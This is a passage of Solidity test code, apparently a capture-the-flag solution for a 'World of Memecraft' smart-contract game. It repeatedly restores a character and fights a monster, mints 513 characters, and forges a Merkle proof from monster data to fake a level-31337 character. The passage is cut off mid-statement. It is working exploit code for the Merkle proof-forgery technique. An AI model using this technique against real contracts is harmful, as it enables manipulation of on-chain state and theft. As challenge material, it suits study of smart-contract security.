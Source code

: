 ```solidity
        proof[8] = keccak256(abi.encodePacked(
            bytes32(uint256(45217210725143634887611559816868982514030355070947982912101667450297164649858)),
            bytes32(uint256(80084422859880547211683076133703299733277748156566366325829078699459944778998))
        ));

        // Die to Jenkins 513 times
        for (uint i = 0; i < 513; i++) {
            vm.roll(block.number + 1);
            world.restoreCharacter(character, proof);
            vm.roll(block.number + 1);
            world.fightMonster(0, 0);
        }
        
        // Verify Jenkins' kills and create new backup
        require(world.getMonster(0).kills == 513);
        vm.roll(block.number + 1);
        world.restoreCharacter(character, proof);
        vm.roll(block.number + 1);
        world.createBackup();
        
        // Create 513 characters to claim ID 513
        for (uint i = 0; i < 513; i++) {
            vm.roll(block.number + 1);
            world.createCharacter();
        }

        // Create fake character from Jenkins' data
        IWorldOfMemecraft.Character memory fakeCharacter;
        fakeCharacter.id = 513;
        fakeCharacter.level = 31337;
        fakeCharacter.health = 1;
        fakeCharacter.xp = 1;

        // Get monster data for proof construction
        IWorldOfMemecraft.Monster memory monster0 = world.getMonster(0);
        IWorldOfMemecraft.Monster memory monster1 = world.getMonster(1);

        // Construct proof for fake character
        bytes32 fakeCharacterMerkle = fakeCharacter.merkleizeCharacter();
        bytes32[] memory fakeProof = new bytes32[](10);
        
        // Build the proof using monster merkle data
        fakeProof[0] = keccak256(
            abi.encodePacked(
                keccak256(
                    abi.encodePacked(
                        keccak256(abi.encode(monster0.id)),
                        keccak256(abi.encode(monster0.name))
                    )
                ),
                keccak256(
                    abi.encodePacked(
                        keccak256(abi.encode(monster0.level)),
                        keccak256(abi.encode(monster0.health))
                    )
                )
            )
        );
        
        // Verify our construction matches monster's merkle root
        require(
```